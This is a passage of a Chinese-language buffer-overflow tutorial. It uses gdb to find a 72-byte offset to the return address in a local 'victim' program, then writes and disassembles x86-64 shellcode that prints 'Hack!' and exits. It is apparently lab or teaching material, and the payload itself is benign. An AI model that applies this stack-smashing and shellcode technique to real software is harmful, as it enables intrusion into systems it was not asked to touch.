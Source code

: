```plain
+--------------+ <-- RBP-0x40
```

用 `gdb` 调试一下, 确认我们的猜想对不对. 首先, `gdb -q ./victim` 启动调试, 然后 `b *main`, 在 `main` 函数的第一条指令下断点, `r` 开始运行.

![gdb pic](https://gitee.com/HorizonChaser/pic-bed/raw/master/img/20210904201815.png)

可以看到, 这时 `RSP = 0x7fffffffde58`, 在下一条 `RBP` 入栈后会变为 `de50`. 用 `p &name[0]` 查看 `name` 数组的地址, 发现是 `0x7fffffffde10`. 由此确认, 返回地址与 `name[0]` 之间的长度为 `0x48 == 72` 字节.

接下来构造 `shellcode`, 我们的目标是输出一个字符串 `Hack!`, 写出如下的汇编代码:

```ASM
[section .text]
        global _start

_start:
        jmp END
BEGIN:
        mov rax, 1
        mov rdi, 1
        pop rsi         ; addr of string popped to RSI as arg of syscall
        mov rdx, 5
        syscall

        mov rax, 0x3c
        mov rdi, 0
        syscall
END:
        call BEGIN      ; addr of string pushed into stack
        DB "Hack!"
```

编译 `nasm -f elf64 shell.asm`, 链接 `ld -s -o shell shell.o`, 然后 `objdump -d shell -M intel` 提取二进制的机器码:

```ASM
Disassembly of section .text:

0000000000401000 <.text>:
  401000:       eb 1e                   jmp    0x401020
  401002:       b8 01 00 00 00          mov    eax,0x1
  401007:       bf 01 00 00 00          mov    edi,0x1
  40100c:       5e                      pop    rsi
  40100d:       ba 05 00 00 00          mov    edx,0x5
  401012:       0f 05                   syscall 
  401014:       b8 3c 00 00 00          mov    eax,0x3c
  401019:       bf 00 00 00 00          mov    edi,0x0
  40101e:       0f 05                   syscall 
  401020:       e8 dd ff ff ff          call   0x401002
  401025:       48 61                   rex.W (bad) 
  401027:       63 6b 21                movsxd ebp,DWORD PTR [rbx+0x21]
```
